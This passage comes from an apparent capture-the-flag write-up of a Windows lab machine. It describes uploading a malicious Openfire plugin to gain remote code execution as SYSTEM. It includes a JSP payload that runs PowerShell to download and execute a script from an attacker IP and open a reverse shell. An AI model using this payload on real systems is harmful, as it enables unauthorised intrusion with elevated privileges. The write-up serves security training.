 ![Access to the portal](/assets/img/Jab/Jab_14.png)

When browsing to the plugin page it seemed like we would be able to upload our own plugins. This could allow us to upload a malicious plugin giving us remote code execution. Seeing that openfire by default runs as system this could mean we get access to the system with elevated permissions. So first we need to create our malicious plugin luckily there are already plenty of examples online on how to make plugins.

First download the plugin template from igniterealtime

```
git clone https://github.com/igniterealtime/openfire-exampleplugin.git
```

Now we need to replace the contents of **/src/main/web/exampleplugin-page.jsp** with our own malicious jsp file. I replaced it with the following jsp code that runs the same reverse shell as before.

```jsp
<%
java.io.DataInputStream in = new java.io.DataInputStream(Runtime.getRuntime().exec("powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.16.61/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.61 -Port 444").getInputStream());
%>
```
